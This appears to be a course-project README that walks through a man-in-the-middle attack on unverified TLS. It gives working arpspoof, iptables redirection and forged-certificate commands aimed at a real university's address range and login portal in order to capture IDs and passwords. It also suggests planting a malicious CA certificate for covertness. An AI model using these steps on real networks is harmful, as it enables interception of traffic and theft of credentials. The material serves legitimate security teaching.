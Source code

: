 # Man-in-the-Middle Attack on Unverified TLS Connections

This is a demonstration project showing the potential damage of unverified TLS connections. The attack is accomplished by ARP spoofing and a simple man-in-the-middle HTTPS server. In this demo, all HTTPS traffic between the victim machine and 140.113/16 held by NYCU is intercepted and redirected to the man-in-the-middle server. The goal is to sniff the inputted ID and password to log into [portal.nycu.edu.tw](https://portal.nycu.edu.tw).

# Prerequisites

- At least one victim machine with Google Chrome installed
- One attack machine with Python 3.8 or later and `dsniff` installed (for `arpspoof`)
- These machines should be able to ping each other within a LAN
- It is recommended to use virtual machines

# Steps

## Attack Machine

### Enable IP forwarding

Enable IP forwarding to allow traffic to go through the attack machine.

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

### Perform ARP spoofing

Perform ARP spoofing on both the victim machine and the gateway. If the attack is successful, the man-in-the-middle scenario holds. The interface name and the gateway IP can be found with `route -n`. The victim IP can be found through IP scanning within the LAN or just by opening a terminal on the victim machine and executing `ifconfig`. Note that at this step, all HTTPS traffic between the victim and servers within 140.113/16 is protected via TLS. To be able to get the plaintext HTTP message, the man-in-the-middle server should pretend to be the real server to the victim and establish the TLS connection with the victim.

```bash
sudo arpspoof -i <interface name> -c both -t <victim IP> -r <gateway IP>
```

### Set the NAT table

Open a new terminal for the following commands. Clear the NAT table of the `iptables` firewall and add a new rule to redirect HTTPS packets to 140.113/16 to this machine on port 8080. The man-in-the-middle server will listen on that port. At this step, the browser will show "This site can't be reached" for all HTTPS connections to 140.113/16 on the victim machine.

```bash
sudo iptables -t nat -F && \
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -m iprange \
  --dst-range 140.113.0.0-140.113.255.255 -j REDIRECT --to-port 8080
```

### Generate self-signed certificate

Generate a forged self-signed certificate for \*.nycu.edu.tw. It is used to establish the TLS connection between the victim and the man-in-the-middle server. Since the victim is assumed not to verify the legality of the certificate, using the generated certificate is fine. If the attacker has access to the victim machine, a malicious CA certificate can be installed so that all certificates signed by that CA certificate can pass the TLS verification, which allows the attack to be more covert.

```bash
openssl req -new -newkey rsa:4096 -days 30 -nodes -x509 \
  -subj "/C=TW/ST=Taiwan/L=Middle/O=Man/CN=*.nycu.edu.tw" -keyout host.key -out host.crt
```

### Run the man-in-the-middle server

The generated certificate files are assumed to be in the same location as the attack script.

```bash
sudo ./attack.py [ <interface name> ]
```

## Victim Machine

### Browse the web

Open several web pages. If the man-in-the-middle server is up, the plaintext ID and password will be shown on the attack machine every time the login request is sent.

```bash
google-chrome -incognito --ignore-certificate-errors --user-data-dir=/tmp/chrome_dev \
  "portal.nycu.edu.tw" "cs.nycu.edu.tw" "ccs.nycu.edu.tw" "eecsigp.nycu.edu.tw" \
  "dpeecs.nycu.edu.tw" "it.nycu.edu.tw" "aa.nycu.edu.tw" "timetable.nycu.edu.tw" \
  "nems.cs.nycu.edu.tw" "ocw.nycu.edu.tw"
```

# Disclaimer

The content provided in this repository is for educational purposes only. Launching such an attack on another person without consent is against the law. The script `attack.py` is part of a course project in Network Security at NYCU CS. Do not plagiarize the script if you are a student doing similar coursework.
